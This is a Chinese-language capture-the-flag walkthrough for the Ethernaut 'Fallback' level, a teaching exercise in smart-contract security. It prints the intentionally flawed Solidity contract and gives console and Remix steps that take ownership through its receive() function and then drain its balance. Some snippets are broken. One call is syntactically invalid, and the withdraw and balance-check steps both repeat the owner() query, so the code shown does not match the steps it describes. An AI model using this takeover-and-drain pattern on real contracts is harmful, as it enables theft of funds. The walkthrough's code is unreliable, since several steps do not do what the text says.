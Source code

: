 # level1 fallback

## 1. 问题

将下面合约的owner改成自己、并且将合约的余额清空

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## 2. 解法

注意到Fallback合约有一个 `receive()` 函数可以修改owner，只要在该函数被调用前母本地址的贡献大于0即可。所以我们通过下面的流程解决：
一. 先用EOA账户调用`contribute()`注资，使得EOA的contributions大于0
二. 使用EOA调用合约的`receive()`函数，获取owner权限
三. 再成为owner后，用EOA调用`withdraw()`接口取回合约里的所有eth


### 2.1 解法1：ethernaut命令行
详细执行步骤如下：
1. 使用EOA账户调用`contribute()`注资0.0009 eth
  1. 使用ethernaut的命令行执行
```bash
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')});
```
  * 执行后会唤起metamask对交易进行签名，发起[Holesky交易](https://holesky.etherscan.io/tx/0x254f1b4b40bf2640e8f3365e9abe21dfc49b4d18f6bdca88c700a5f63e64d532)
2. 使用EOA账户调用`receive()`随便注资一点，以获取owner权限
```bash
await contract.({from: player, value: toWei('0.000001')});
```
  * 执行后会唤起metamask对交易进行签名，发起[Holesky交易](https://holesky.etherscan.io/tx/0xf1a8172b4025f6f614e42cc58e29d5faa9a94142f5b0846bc1b04394f338bd2a)
  
3. 查询下当前owner, 确认已经变成我们自己了：
```bash
await contract.owner()
```

4. 调用`withdraw()`接口取回合约里的所有eth：
```bash
await contract.owner()
```

5. 查询一下当前合约的余额, 发现确实为0
```bash
// 也可以打开区块链浏览器直接看合约的余额
await contract.owner()
```

6. 点击 `submit instance`， 提交通过！


### 2.2 解法2：使用remix和合约交互
1. 因为我们不需要部署fallback合约，所以我们将fallback的逻辑切换成interface，然后在remix上编译:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 将原始合约定义成 interface，方便自己写的合约调用
interface Fallback {
    // 原始合约中的public变量, 作为interface引入时，有一个对应方法可以调用
    // mapping(address => uint256) public contributions;
    function contributions(address user) external view returns(uint256);
    
    // 原始合约中的public变量, 作为interface引入时，有一个对应方法可以调用
    // address public owner;
    function owner() external view returns (address);

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function contribute() external payable;

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function getContribution() external view returns (uint256);

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function withdraw() external;
}
```
2. 编译完成后，在部署页选择`At Address`, 填入ethernaut后台获取到的合约地址。会在下面`Deployed Contracts`中天街一个实例，里面有我们定义的接口。

![](../../resources/img/level1/image.jpg)

3. 在`VALUE`中填入 `900Gwei`,然后点击 `contribute`函数，唤起metamask[提交交易](https://sepolia.etherscan.io/tx/0x7adfa062698091a12866560e46c95a3ff0d5323882e6f4521d995e3684c8272e)

4. 如果想要给合约转入eth触发合约的`fallback()`执行，正常来说应该通过代码`address(XXX).call{value: 0.0009 ether}("");`，但是interface里面没有这个接口，所以我们使用`low level interactions`, 输入1wei，点击transact, 唤起metamask[提交交易](https://sepolia.etherscan.io/tx/0xbe66ef804998d02c760774628b4cc1d5ac27ba1e160a779dba6b1a400e215e9a)

![](../../resources/img/level1/transact.jpg)
   a. 这里面我们什么参数都不用填, 相当于调用selector为`0x00000000`的函数。因为Fallback合约中的函数selector基本不可能出现 `0x00000000`, 所以会调用 Fallback 合约的`receive()` 函数默认去处理，从而触发owner切换
   
5. 点击`owner()`函数，发现确实已经切换了

![](../../resources/img/level1/owner.jpg)

6. 点击`withdraw`[提交交易](https://sepolia.etherscan.io/tx/0xb6a86b89e5334eaa067202a63016ab9063bceb83d524490b8c4ceba231dd4878)取走所有的余额

7. 点击 `submit instance`， 提交通过！
